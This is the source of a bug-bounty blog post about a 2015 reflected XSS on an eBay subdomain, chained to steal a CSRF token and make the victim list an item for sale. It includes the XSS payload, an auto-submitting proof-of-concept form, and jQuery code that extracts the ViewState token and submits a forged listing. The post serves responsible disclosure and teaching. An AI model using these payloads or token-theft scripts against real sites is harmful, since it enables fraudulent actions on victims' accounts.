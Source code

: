```yaml
---
layout: post

title: "Making you sell what I want: Story of an Ebay XSS"
subtitle: ""
cover_image: ebay/ebay-sign.jpg

excerpt: "Reflected
 XSS vulnerability could be leveraged to make the victim sell unwanted items "

author:
  name: Lorenzo Fontana
  twitter: r0rshark
  gplus: 110104859248839601734
  bio: Bug hunter and student at Polimi
  image: me.png


---
```


### TL;DR
A XSS vulnerability in Ebay can be exploited by an attacker to bypass CSRF protection and make a victim sell unwanted items.
This is a pretty basic technique but it could be interesting for people which have just entered in the Bug Bounty world.

### XSS on Ebay
Let's talk about my first bug hunting experience.
First of all why have I chosen to test Ebay? Simple:

- The Ebay website was first **developed lots of time ago** when the word ``"security"`` was not so popular and there weren't beatiful frameworks which prevents developer to make shit happen.
- Ebay is a pretty high level profile website and has a **Bug Bounty program** which awards with a mention in their Security Researchers Acknowledgement page;
- Ebay doens't offer a cash award (yes this doesn't seem to be a pro but this means that **not so many people have tested it** unlike Google and Facebook);

When trying to find a security issue the best place to **search** is **where other people hasn't already looked at**, so let's forgot for a moment the main page and let's search in some other subdomains. Two great tools to discover subdomains are [dnsenum](https://github.com/fwaeytens/dnsenum) and [fierce](http://tools.kali.org/information-gathering/fierce). Looking around I found **csr.ebay.it** which seems to handle the process of selling items as a merchant. Between the different requests sent to this domain a POST request to ``http://csr.ebay.it/cse/results.jsf `` caught my attention because it has a ``keyword`` parameter which is reflected in the response.

<div class="full zoomable">
  <img src="/images/ebay/burp_ebay.png">
</div>

A good payload which I use to test for XSS is  ``xxx"><svg/onload=alert(1)>`` because it provides two functionalities:

1. The string ``xxx``  is very unlikely to be present in the page so by **inspecting the source code** of the HTML page and searching for ``xxx`` I can discover the **location where my input has been reflected**;
2. The rest of the payload ``"><svg/onload=alert(1)>`` may **trigger a XSS vulnerability** popping up an alert box;

So we intercept the request to http://csr.ebay.it/cse/results.jsf  using [Burp](http://portswigger.net/burp/) edit the ``keyword`` field with ``"><svg/onload=alert(1)>``, submit the request and wait for:

<div class="full zoomable">
  <img src="/images/ebay/ebay_xss.jpg">
</div>

Yay!!! This is our lucky day but wait a minute where is the session cookie?

<div class="full zoomable">
  <img src="/images/ebay/session_cookie.png">
</div>

Oh no. The session cookie is set ``HttpOnly`` this means that it is **not accessible through javascript**, bye bye session hijacking but let's see what we could do with it.
Let's first create our PoC page; this is very straightforward, we just need to create an html form containing the fields and the value which we want to submit and submit it as soon as the user visit the page.

{% highlight html %}
<!DOCTYPE html>
<html>
  <head>
    <script src="https://code.jquery.com/jquery-2.1.3.min.js"> </script>
  </head>
  <body>
    <form id="myform" action="http://csr.ebay.it/cse/results.jsf?sbh=true" method="POST">
      <input name="keywords" id="keywords" value="&quot;><svg/onload=alert(document.domain+document.cookie)>" >
      <input name="btnStartGandalf" id="btnStartGandalf" value="Inizia" >
      <input name="startPage" id="startPage" value="true" >
      <input name="pageName" id="pageName" value="start" >
    </form>
  </body>
</html>

<script>
$.ready(
    $('#myform').submit()
      );
</script>
{% endhighlight %}

### From XSS to CSRF

I won't bother you on what a CSRF attack is, there are [very good explanation](http://haacked.com/archive/2009/04/02/anatomy-of-csrf-attack.aspx/) out there, the only thing to know is that this attack can be exploited to **make the user do unwanted actions** and can be prevented by attaching a hidden field ``csrf_token`` to the form which will be submitted.
Let's recapt what we know so far:

1. we can run javascript code through the **XSS in crs.ebay.it**;
2. crs.ebay.it domain enables the user to **sell items**;
3. the selling functionality is **protected against CSRF** through a hidden token in the form;

Attack plan: exploit the XSS to **exfiltrate the CSRF token** and use it to make a request in the behalf of the user.
We modify the payload before and instead of displaying an alert message (``"><svg/onload=alert(1)>``) we include a script which:

1. Send a GET request to the page containing the token;
2. Parse the page to get the token value (in our case the javax.faces.ViewState field);
3. Send a post request to ``http://csr.ebay.it/cse/list.jsf`` to publish the product with the fields which we have set in the form validated with the csrf token which we have exfiltrated before;


{% highlight javascript %}

//Generate the form which will be send to sell the item
var f = document.createElement("form");
f.setAttribute('id',"myform");
f.setAttribute('method',"post");
f.setAttribute('action',"http://csr.ebay.it/cse/list.jsf");

var i1 = document.createElement("input");
i1.setAttribute('type',"text");
i1.setAttribute('name',"title");
i1.setAttribute('value',"Iphone6");

...Add here all the other fields for the item to sell

var i2= document.createElement("input");
i2.setAttribute('type',"text");
i2.setAttribute('name',"javax.faces.ViewState");
i2.setAttribute('id',"javax.faces.ViewState");
i2.setAttribute('value',"");


var s = document.createElement("input");
s.setAttribute('type',"submit");
s.setAttribute('value',"Submit");

document.body.appendChild(f);
f.appendChild(i1);
f.appendChild(i2);
f.appendChild(s);


$.ready(
    $.ajax({
      url:"http://csr.ebay.it/cse/list.jsf?usecase=create&mode=AddItem&categoryId=30095",
      type: 'get',
      //1 sending a get request to the page containing the token
      success: function(data,status){
        var html = $.parseHTML(data);
        //2 parsing the html to find the token value
        var token = $(html).find( 'input[name="javax.faces.ViewState"]' ).val();
        console.log(token)
        //3 setting this value to the csrf_token field in the constructed form
        $("input[id='javax.faces.ViewState']").val(token)
        //4 submitting the form
        $('#myform').submit()
      }
    })
);

{% endhighlight %}

Hooray!! We have made the victim which click on our link sell an Iphone 6.
**Kudos to the Ebay security team** which has been very responsive and patched the vulnerability in a week.
I think that at the moment the security level of Ebay is not enough strong considering the sensitive informations and the profitable actions which the platform provide, so I keep wondering why Ebay hasn't already started a  payment based Bug Bounty program on platforms like Hackerone or Bugcrowd.

- 7 April 2015 Vulnerability reported to Ebay Security Team
- 15 April 2015 Vulnerability patched
- 25 May 2015 Added to the Responsible Disclosure Acknowledgements page
- 18 June 2015 Public disclosure


